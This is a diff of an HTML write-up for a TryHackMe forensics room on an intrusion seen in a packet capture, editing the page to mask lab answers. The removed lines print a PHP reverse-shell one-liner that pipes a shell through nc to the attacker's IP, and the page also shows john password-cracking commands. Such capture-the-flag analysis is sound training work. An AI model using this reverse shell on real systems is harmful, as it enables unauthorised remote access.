

update

diff --git a/tryhackme-overpass2hacked-writeup/index.html b/tryhackme-overpass2hacked-writeup/index.html
@@ -117,23 +117,27 @@
 
                     <h3>What was the URL of the page they used to upload a reverse shell?</h3>
 
-                    <p>Opening the network packet dump in wireshark, you can see that the computer with the IP address 192.168.170.145 sent a GET request to the /development/ directory.</p>
-                    
+                    <p>Opening the network packet dump in wireshark, you can see that the computer with the IP address 192.168.170.145 sent a GET request to the /d*********t/ directory.</p>
+                    										  
                     <a href="../img/post14/image2.png">
                         <img class="img-responsive" src="../img/post14/image2.png" alt="">
                     </a>
 
-                    <pre><code>/development/</code></pre>
+                    <pre><code>/d*********t/</code></pre>
+
 
                     <h3>What payload did the attacker use to gain access?</h3>
 
-                    <p>I also noticed that the computer with the IP address 192.168.170.145 uploaded the file using      <b>/development/upload.php</b> after sending the POST request. If you look at TCP Stream, you can see what malicious code was uploaded by the attacker to the server.</p>
+                    <p>I also noticed that the computer with the IP address 192.168.170.145 uploaded the file using      <b>/d*********t/upload.php</b> after sending the POST request. If you look at TCP Stream, you can see what malicious code was uploaded by the attacker to the server.</p>
 
                     <a href="../img/post14/image3.png">
                         <img class="img-responsive" src="../img/post14/image3.png" alt="">
                     </a>
 
-					<pre><code>&lt;?php exec("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.170.145 4242 >/tmp/f")?></code></pre>
+					<pre><code>&lt;?php exec("********************************************************************************/f")?></code></pre>
+
+
+
 
                     <h3>What password did the attacker use to privesc?</h3>
 
@@ -172,7 +176,7 @@
 
                     <pre><code>john --wordlist=/usr/share/wordlists/fasttrack.txt shadow-file</code></pre>
                     <pre><code>john --show shadow-file</code></pre>
-                    <pre><code>answer: 4</code></pre>
+                   
 
                     <h2 class="section-heading">Research - Analyse the code</h2>
                     
